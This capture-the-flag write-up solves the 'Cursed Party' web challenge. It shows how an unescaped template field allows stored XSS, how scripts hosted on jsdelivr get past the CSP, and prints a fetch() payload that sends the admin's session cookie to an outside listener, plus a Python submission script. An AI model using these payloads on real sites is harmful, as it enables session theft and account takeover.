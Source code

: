 # [Web] Cursed Party

This web application has a simple form to send information about invitation to a party. Once an invitation is submitted, a bot with admin access will visit the page displaying the invitation requests.

```js
const flag = fs.readFileSync('/flag.txt', 'utf8');
[...]
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});
		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});
```

Stealing this cookie will give us the flag. Since we need to steal a cookie via a form, this is most likely by using an XSS.

Indeed the admin page displaying the requests is vulnerable to XSS

```
    <body>
        <div class="container" style="margin-top: 20px">
            {% for request in requests %}
                <div class="card">
                <div class="card-header"> <strong>Halloween Name</strong> : {{ request.halloween_name | safe }} </div>
                <div class="card-body">
                    <p class="card-title"><strong>Email Address</strong>    : {{ request.email }}</p>
                    <p class="card-text"><strong>Costume Type </strong>   : {{ request.costume_type }} </p>
                    <p class="card-text"><strong>Prefers tricks or treat </strong>   : {{ request.trick_or_treat }} </p>

                    <button class="btn btn-primary">Accept</button>
                    <button class="btn btn-danger">Delete</button>
```

However we do have one more thing to overcome. This site uses a [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) header restricting from where Javascript can be loaded into the victim's browser.

```js
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});
```

It uses `https://cdn.jsdelivr.net` as base URL for scripts: we can upload an XSS payload to Github, use JS Delivr to fetch that script and serve it as part of its CDN.

The XSS payload we will use should not use `eval`, as the CSP doesn't allow `unsafe-eval`. We can use `fetch` to send the cookie data

```html
<script>fetch('http://1.2.3.4:4444?aaa='+document.cookie, {method: 'GET',mode: 'no-cors'});</script>
```

Once this is hosted on Github, we use the corresponding JS Delivr as part of the invitation sent over the form, to be displayed to the admin bot.

```python
import requests

host = "http://1.2.3.4:32689"

xss = b'</p></div><script src="https://cdn.jsdelivr.net/gh/pgaulon/ctf-xss@main/troll.js"></script>'
payload = {
    "costume_type": "aaa",
    "email": "aaa@aa.aa",
    "halloween_name": xss_object,
    "trick_or_treat": "treats"
    }

response = requests.post(host + '/api/submit', json=payload)
print(response.text)
```

We then receive the callback on our listener, with the cookie containing the flag. The cookie being a [JWT](https://jwt.io/), it just needs an extra base64 decoding.
